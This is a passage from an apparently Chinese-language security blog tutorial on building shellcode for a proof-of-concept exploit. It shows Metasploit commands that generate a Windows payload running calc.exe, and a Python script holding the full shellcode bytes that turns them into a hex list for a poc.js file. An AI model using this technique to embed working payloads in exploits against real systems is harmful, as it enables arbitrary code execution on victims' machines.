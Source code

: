 

### 3.编写shellcode

因为只是做测试，就不搞花里胡哨的**shell反弹**了，做一个最简单的，**打开计算器**。

有两种方法：一种是手撸汇编代码，生成二进制文件，找到代码段对应机器码，然后copy下来即可；第二中是借助MSF直接生成机器码......手撸shellcode有点顶，下次想起来单独写一篇博客，这里我们通过MSF直接生成：

```bash
msfconsole
# 启动msf控制台

use windows/exec
set CMD calc.exe
set EXITFUNC thread
#设置参数

generate -t
# 生成buf
```



得到的shellcode如下：

![image.png](https://s3.xiabee.cn/pic/weibo-backup/0084b03xly1gw81fqre11j30ik0gawom.jpg)



我们通过Python脚本将其转换为需要的list形式：

```python
import binascii

buf = "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50" + \
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" + \
"\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7" + \
"\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78" + \
"\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3" + \
"\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01" + \
"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58" + \
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3" + \
"\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a" + \
"\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d" + \
"\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb" + \
"\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c" + \
"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53" + \
"\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"

code = [hex(ord(x)) for x in buf]

print(','.join(code))
```

然后将结果复制粘贴到`poc.js`中
